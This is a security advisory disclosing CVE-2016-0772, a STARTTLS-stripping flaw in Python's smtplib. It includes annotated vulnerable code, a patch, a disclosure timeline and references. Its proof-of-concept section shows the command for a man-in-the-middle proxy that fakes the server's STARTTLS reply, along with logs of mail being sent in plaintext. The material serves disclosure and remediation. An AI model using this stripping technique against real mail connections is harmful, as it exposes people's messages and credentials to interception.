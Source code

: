 VuNote
============

	Author:		<github.com/tintinweb>
	Version: 	0.2
	Date: 		Nov 25th, 2015
	
	Tag:		python smtplib starttls stripping (mitm)

Overview
--------

	Name:			python 
	Vendor:			python software foundation
	References:		* https://www.python.org/ [1]
	
	Version:		2.7.11, 3.4.4, 3.5.1
	Latest Version:	2.7.11, 3.4.4, 3.5.1 [2]
	Other Versions:	2.2 [3] (~14 years ago) <= affected <= 2.7.11
					3.0 [3] (~7  years ago) <= affected <= 3.4.4
														   3.5.1
	Platform(s):	cross
	Technology:		c/python

	Vuln Classes:	Selection of Less-Secure Algorithm During Negotiation (CWE-757)
	Origin:			remote/mitm
	Min. Privs.:	-

	CVE:			CVE-2016-0772


Description
---------

quote wikipedia [4]

>Python is a widely used high-level, general-purpose, interpreted, dynamic programming language. Its design philosophy emphasizes code readability, and its syntax allows programmers to express concepts in fewer lines of code than would be possible in languages such as C++ or Java.[24][25] The language provides constructs intended to enable clear programs on both a small and large scale.


Summary 
-------

python smtplib does not seem to raise an exception when the remote 
end (smtp server) is capable of negotiating starttls (as seen in the 
response to ehlo) but fails to respond with 220 (ok) to an explicit 
call of `SMTP.starttls()`. This may allow a malicious mitm to perform a 
starttls stripping attack if the client code does not explicitly check 
the response code for starttls, which is rarely done as one might 
expect that it raises an exception when starttls negotiation fails 
(like when calling starttls on a server that does not support it or 
when it fails to negotiate tls due to an ssl exception/cipher 
mismatch/auth fail).

Quoting the PSRT with an extended analysis

> It is a surprising and potential dangerous behavior. It also violates Python's documentation. states that all SMTP commands after starttls() are encrypted. That's clearly not true in case of response != 200. I also had a look how the other stdlib libraries handle starttls problems. nntplib's and imaplib's starttls() method raise an error when the starttls handshake fails.

Checking on how `smtplib.starttls()` is actually being used by open-source projects underlines that `smtplib.starttls()` is generally expected to throw an exception if the starttls protocol was not executed correctly. Therefore this issue may have an impact on some major projects like Django, web2py. Apart from that the current `smtplib.starttls()` behavior is different to `nntplib.starttls()`, `imaplib.starttls()`

PoC see [6]
patch attached.

Details
------

The vulnerable code is located in `lib/smtplib.py` [3] line 646 (2.7 branch) and 
fails to raise an exception if `resp!=220`.

The documentation [7] suggests that `starttls()` either encrypts all communication
or throws an exception if it was not able to negotiate tls.

```python
	SMTP.starttls([keyfile[, certfile]])
	Put the SMTP connection in TLS (Transport Layer Security) mode. All SMTP commands that follow will be encrypted. You should then call ehlo() again.
	
	If keyfile and certfile are provided, these are passed to the socket module’s ssl() function.
	
	If there has been no previous EHLO or HELO command this session, this method tries ESMTP EHLO first.
	
	Changed in version 2.6.
	
	SMTPHeloError
	The server didn’t reply properly to the HELO greeting.
	SMTPException
	The server does not support the STARTTLS extension.
	Changed in version 2.6.
	
	RuntimeError
	SSL/TLS support is not available to your Python interpreter.
```

Code `lib/smtplib.py`:

Inline annotations are prefixed with `//#!`

```python
def starttls(self, keyfile=None, certfile=None):
	"""Puts the connection to the SMTP server into TLS mode.
	If there has been no previous EHLO or HELO command this session, this
	method tries ESMTP EHLO first.
	If the server supports TLS, this will encrypt the rest of the SMTP
	session. If you provide the keyfile and certfile parameters,
	the identity of the SMTP server and client can be checked. This,
	however, depends on whether the socket module really checks the
	certificates.
	This method may raise the following exceptions:
	 SMTPHeloError            The server didn't reply properly to
	                          the helo greeting.
	"""
	self.ehlo_or_helo_if_needed()
	if not self.has_extn("starttls"):
	    raise SMTPException("STARTTLS extension not supported by server.")
	(resp, reply) = self.docmd("STARTTLS")
	if resp == 220:														//#! with a server not responding 220 it wont even try to negotiate tls
	    if not _have_ssl:												//#! silently stays unencrypted
	        raise RuntimeError("No SSL support included in this Python")
	    self.sock = ssl.wrap_socket(self.sock, keyfile, certfile)
	    self.file = SSLFakeFile(self.sock)
	    # RFC 3207:
	    # The client MUST discard any knowledge obtained from
	    # the server, such as the list of SMTP service extensions,
	    # which was not obtained from the TLS negotiation itself.
	    self.helo_resp = None
	    self.ehlo_resp = None
	    self.esmtp_features = {}
	    self.does_esmtp = 0
	return (resp, reply)												//#! to actually detect this a client would have to manually check resp==220
																			//#! or that the socket was turned into an SSLSock object
```

Proof of Concept
----------------

1. start `striptls.py` proxy

```python
	#> python striptls/striptls.py -l 0.0.0.0:9999 -r remote.mailserver.tld:25 -x SMTP.StripWithInvalidResponseCode
	
	  - INFO     - <Proxy 0x1f04910 listen=('0.0.0.0', 9999) target=('remote.mailserver.tld', 25)> ready.
	  - DEBUG    - * added test (port:25   , proto:    SMTP): <class __main__.StripWithInvalidResponseCode at 0x020F85E0>
	  - INFO     - <RewriteDispatcher vectors={25: set([<class __main__.StripWithInvalidResponseCode at 0x020F85E0>])}>
```

2. send mail using `smtplib` (starttls)

```python
	import smtplib
	server = smtplib.SMTP('localhost', port=9999)
	server.set_debuglevel(1)
	server.ehlo()
	print server.esmtp_features
	server.starttls()
	server.sendmail("a@b.com", "b@a.com", "From: a@b.com\r\nTo: b@a.com\r\n\r\n")
	server.quit()
```

3. watch `striptls.py` fake the server response with `resp=200` instead of `resp=220`, not forwarding the message to the server. This effectively strips starttls. `smtplib` keeps sending in plaintext with no indication to the client code that starttls negotiation actually failed.

```python
	  - DEBUG    - <ProtocolDetect 0x1f25530 protocol_id=PROTO_SMTP len_history=0> - protocol detected (target port)
	  - INFO     - <Session 0x1f0ea50> client ('127.0.0.1', 59687) has connected
	  - INFO     - <Session 0x1f0ea50> connecting to target ('remote.mailserver.tld', 25)
	  - DEBUG    - <Session 0x1f0ea50> [client] <= [server]          '220 mailserver.tld (msrv002) Nemesis ESMTP Service ready\r\n'
	  - DEBUG    - <RewriteDispatcher  - changed mangle: __main__.StripWithInvalidResponseCode new: True>
	  - DEBUG    - <Session 0x1f0ea50> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	  - DEBUG    - <Session 0x1f0ea50> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [x.x.x.x]\r\n250-SIZE 3	1457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
	  - DEBUG    - <Session 0x1f0ea50> [client] => [server]          'STARTTLS\r\n'
	  - DEBUG    - <Session 0x1f0ea50> [client] <= [server][mangled] '200 STRIPTLS\r\n'
	  - DEBUG    - <Session 0x1f0ea50> [client] => [server][mangled] None
	  - DEBUG    - <Session 0x1f0ea50> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	  - DEBUG    - <Session 0x1f0ea50> [client] <= [server]          '530 Authentication required\r\n'
	  - DEBUG    - <Session 0x1f0ea50> [client] => [server]          'rset\r\n'
	  - DEBUG    - <Session 0x1f0ea50> [client] <= [server]          '250 OK\r\n'
	  - WARNING  - <Session 0x1f0ea50> terminated.
```

Patch
-------

* raise an exception if the server replies with an unexpected return-code to an explicit call for `smtplib.starttls()`.

```diff
#https://github.com/python/cpython <master> diff --git a/Lib/smtplib.py b/Lib/smtplib.py index 4756973..dfbf5f9 100755
--- a/Lib/smtplib.py
+++ b/Lib/smtplib.py
@@ -773,6 +773,11 @@ class SMTP:
             self.ehlo_resp = None
             self.esmtp_features = {}
             self.does_esmtp = 0
+        else:
+            # RFC 3207:
+            # 501 Syntax error (no parameters allowed)
+            # 454 TLS not available due to temporary reason
+            raise SMTPResponseException(resp, reply)
         return (resp, reply)

     def sendmail(self, from_addr, to_addrs, msg, mail_options=[],
```

Notes
-----

Vendor response: see [8,9,10]

Timeline:
	
	11/25/2015	contact psrt; provided details, PoC, proposed patch
	12/01/2016	response, initial analysis
	01/29/2016	request ETA, bugref
	02/01/2016	psrt assigned CVE-2016-0772
	02/12/2016	response: will be addressed in upcoming 2.7, 3.5
	02/13/2016	request ETA; response: no exact date
	03/29/2016	request ETA; response: generic bounce message
	05/12/2016	request ETA; no response
	05/27/2016	request ETA; response: no exact date
	06/12/2016	request ETA;
	06/14/2016	response: ETA ~ June 26th
	06/14/2016	vendor announcement [9]

References
---------

	[1] https://www.python.org/
	[2] https://www.python.org/downloads/
	[3] https://github.com/python/cpython/blob/2.7/Lib/smtplib.py
	[4] https://en.wikipedia.org/wiki/Python_(programming_language)
	[5] https://docs.python.org/2/library/smtplib.html#smtplib.SMTP.starttls
	[6] https://github.com/tintinweb/striptls
	[7] https://docs.python.org/2/library/smtplib.html
	[8] https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2016-0772
	[9] http://www.openwall.com/lists/oss-security/2016/06/14/9
	[10] https://access.redhat.com/security/cve/cve-2016-0772
